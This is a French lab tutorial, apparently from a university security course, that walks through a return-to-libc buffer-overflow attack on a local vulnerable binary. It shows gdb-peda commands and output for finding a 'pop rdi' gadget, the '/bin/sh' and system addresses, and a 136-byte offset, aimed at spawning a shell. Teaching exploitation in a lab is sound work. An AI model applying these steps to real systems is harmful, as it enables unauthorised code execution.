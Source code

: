 ## Return 2 libc

* Le binaire est compilé avec le flag NX activé (moyen de protection par le noyau rendant la pile non exécutable).

* Le mécanisme de randomisation de l'espace d'adresse ASLR est désactivé


![ret1](https://github.com/aabda2000/sti3a-security/assets/38082725/a7908f53-49b0-4ed9-8a84-5e8b42212306)


## Comment retourner à libc ?
Ici, l'objectif est de détourner le flot d'exécution normal du processus : Il s'agit de le rediriger pour exéuter la fonction system de libc:

int system(const char *command). 

plus précisément, on voudrait exécuter l'instruction : system("/bin/sh")

## Gadget poprdi ?

On commence notre investigation par la recherche d'un gadget de type pop rdi (il faut d'abord faire un break,sur vuln par exemple, dans gdb, et ensuite lancer le programme):


![ret2](https://github.com/aabda2000/sti3a-security/assets/38082725/b24826df-0697-4033-baf7-e3a3d395324a)

sinon, vous pouvez cherchez ce gadget en fournissant les adresses de début et de fin de mappage de libc:

![ret3](https://github.com/aabda2000/sti3a-security/assets/38082725/50c7c117-e152-4260-a75e-13440038dfa0)


gdb-peda$ ropsearch "pop rdi ; ret" 0x00007ffff7dee000 0x00007ffff7faf000

ou

gdb-peda$ dumprop

ou

gdb-peda$ asmsearch "pop rdi ; ret"

## Chercher l'adresse de la chaîne "/bin/sh"

![ret4](https://github.com/aabda2000/sti3a-security/assets/38082725/e73f41cb-5a46-478e-8a6c-3b82b30164a4)

## Chercher l'adresse de la fonction system

gdb-peda$ p system

$1 = {int (const char *)} 0x7ffff7e36e50 <__libc_system>
gdb-peda$

## Chercher l'offset

gdb-peda$ pattern_create 400 entry.txt

Writing pattern of 400 chars to filename "entry.txt"

gdb-peda$ 

gdb-peda$ r < <(cat entry.txt)

Starting program: /home/insa/advanced/secu/cm/02-ret2libc/ret2libc < <(cat entry.txt)

adress of buf=0x7fffffffde10

Stopped reason: SIGSEGV

0x0000000000401178 in vuln () at ret2libc.c:10

10	}

gdb-peda$ x/1wx $rsp

0x7fffffffde98:	0x41514141

gdb-peda$ pattern offset 0x41514141

1095844161 found at offset: 136


l'offset vaut 136

La génération d'une erreur de segmentation (et d'un coredump (contenant l'état de la mémoire au moment du décès du processus,
sous GNU/Linux) est le syndrome que notre application est effectivement affectée par l'insertion d'un trop grand nombre de caractères en entrée.

## Lancez l'attaque

Mettez les différentes adresses trouvées dans le script pyton monexploit.py


